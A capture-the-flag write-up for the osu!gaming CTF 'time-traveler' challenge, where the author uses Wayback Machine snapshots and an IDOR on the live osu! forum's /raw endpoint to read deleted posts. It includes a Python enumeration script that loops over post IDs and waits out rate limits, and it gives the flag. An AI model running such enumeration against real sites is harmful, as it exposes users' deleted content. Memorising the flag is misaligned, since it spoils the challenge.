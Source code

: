 ```yaml
---
description: osint webarchives, IDOR with binary search
platform: osu!gaming CTF
categories: Web, OSINT
tags:
  - web-archives
  - IDOR
---
```



# osu!gaming CTF writeups
Write-up for [osu!gaming CTF](https://ctftime.org/event/2165) OSINT challenge - time-traveler (334 points) 

---

# osint/time-traveler
![Alt text](images/image-8.png)

## OSINT part
We were given https://osu.ppy.sh/users/11118671 which is a profile page for a user Strellic in osu! 
![Alt text](images/strellic.png)

I tried looking around but ultimately was not able to find anything that will help progress.

I went back to focus on the profile page message. I tried looking at Strellic's profile in Wayback machine (a website where we can enter a URL and view the previous versions of a webpage). 

There was a snapshot in February 29 in Strellic's profile.

![Alt text](images/image-1.png)

This leads to another clue that there is a post in the introductions forum page. https://osu.ppy.sh/community/forums/8

Looking around in the live website, I wasn't able to find Strellic's post. I thought of again utilizing the wayback machine again and found something interesting.

![Alt text](images/image-3.png)

Strellic's post was also captured in February 29 in wayback machine. when we hover this post we find crucial information like the date of the post (2024-02-09T07:45:27+00:00) and forum ID.

I tried directly accessing the forum page from its forum ID https://osu.ppy.sh/community/forums/topics/1890614 but I was not able to view it.


## Web part 
After knowing that the flag might be in the deleted post in the introductions forum. The challenge now is to find a way to access a previously post in a forum.

As it turns out there is. After looking around existing post and links in a forum. I was able to find information that helped me solved the challenge.

1. When you create a topic in a forum - like Strellic did. It will generate a topic that looks like this in the URL https://osu.ppy.sh/community/forums/topics/1888734 (post in the screenshots just used as an example)
![Alt text](images/image-4.png)

2. Along with this, there also another link generated called a POST which looks something like this in the URL https://osu.ppy.sh/community/forums/posts/9448728. Accessing this directly just redirects you to the forum topic.

3. However, accessing the specific post by accessing the /raw endpoint will redirect you to the actual message of that post https://osu.ppy.sh/community/forums/posts/9448728/raw?quote=1
![Alt text](images/image-5.png)

4. I also found out that even deleted post in the forum can be viewed using this /raw endpoint. For example, I created a post in the introductions page and took note of the URL. I was able to access it even when deleted
https://osu.ppy.sh/community/forums/posts/9463478/raw?quote=1 (this does not work now but it would look something like this)
![Alt text](images/image-6.png)

This is helpful because if we find out the ID of Strellic's post we would be able to view his message.

## IDOR + Binary Search
The POST ID is incremental, which means we can view the post. However simply decrementing the POST ID will take a long time and too many request. 

I found out a faster way by just accessing the URL without adding the endpoint. Using this scheme will redirect to the POST which will reveal the date and time  
https://osu.ppy.sh/community/forums/posts/9448728. Since this is being redirected. 

![Alt text](images/image-7.png)

Since we know that Strellic's deleted post was from February 29. I just needed to find a post posted in February 29 to narrow down the search. I did this in the browser and just looked at the post date.

For example. 

https://osu.ppy.sh/community/forums/posts/9448728 - February 25 <br>
https://osu.ppy.sh/community/forums/posts/9450728 - February 26 <br>
https://osu.ppy.sh/community/forums/posts/9455728 - March 1 <br>
... <br>
https://osu.ppy.sh/community/forums/posts/9454300 - February 29 <br>

Then starting from this ID we can increment it to find Strellic post using the /raw endpoint. Here is the script i used:
```python
def find_strellic():
    start = 9454300
    end = 9455000
    headers = {
        "Cookie": <redacted>
    }
    for i in range(start, end):
        print(f"requesting {i}...", end="")
        resp = requests.get(f"https://osu.ppy.sh/community/forums/posts/{i}/raw?quote=1", headers=headers)
        print(resp.status_code)
        # request the page again while 429 is response
        while resp.status_code == 429:
            time.sleep(20)
            print(f"requesting {i}...", end="")
            resp = requests.get(f"https://osu.ppy.sh/community/forums/posts/{i}/raw?quote=1", headers=headers)
            print(resp.status_code)
        # flag 
        if "Strellic" in resp.text:
            print(resp.text)
            break
        
```

The flag was found in https://osu.ppy.sh/community/forums/posts/9454307/raw?quote=1

![Alt text](images/flag.png)
flag: **osu{w4it_are_y0u_a_t1me_tr4veler}**


